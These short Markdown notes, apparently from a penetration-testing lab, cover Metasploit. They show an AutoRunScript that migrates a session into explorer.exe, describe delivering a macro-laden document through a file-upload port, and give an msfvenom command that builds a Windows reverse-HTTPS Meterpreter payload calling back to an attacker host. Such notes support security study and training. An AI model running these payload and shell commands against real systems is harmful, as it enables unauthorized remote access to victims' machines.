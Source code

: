 ## Metasploit framework notes

#### Auto Run Script

```
set AutoRunScript "migrate -n explorer.exe"
```

### Ch1 Notes

1. Identify the web port on 192.168.49.121  allowing file upload. Upload a doc file which allow which allow [ping marco](/msf/ping.vba) command to verify the target allowing code execution though marco 
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
```
